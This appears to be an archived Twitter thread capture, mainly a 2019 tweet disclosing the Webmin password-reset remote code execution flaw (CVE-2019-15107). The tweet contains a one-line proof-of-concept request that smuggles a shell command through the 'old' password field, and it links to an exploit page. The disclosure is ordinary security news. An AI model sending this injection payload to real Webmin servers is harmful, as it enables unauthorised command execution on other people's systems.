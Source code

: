 <td><img src="pictures/http+++pbs.twimg.com+media+ECK5vTLU0AAdfwf.jpg" alt="http://pbs.twimg.com/media/ECK5vTLU0AAdfwf.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>20</code></td>
<td>Favorites: <code>113</code></td>
</tr></table>

---

# _hg8_
**https://twitter.com/_hg8_/status/1162694712177954819 _at 2019-08-17 11:56:35_**
<blockquote>
"Webmin 0day remote code execution"

Tl;Dr: Lack of input validation in the reset password function  allows RCE (CVE-2019-15107). Over 13 0000 vulnerable on Shodan. 

PoC: 
/password_reset.cgi 
user=root&amp;pam&amp;expired&amp;old=wrong | id

https://t.co/kYKfq8v6Bb
</blockquote>

* https://pentest.com.tr/exploits/DEFCON-Webmin-1920-Unauthenticated-Remote-Command-Execution.html

<table><tr>
<td>Quotes: <code>9</code></td>
<td>Replies: <code>9</code></td>
<td>Retweets: <code>458</code></td>
<td>Favorites: <code>879</code></td>
</tr></table>

---
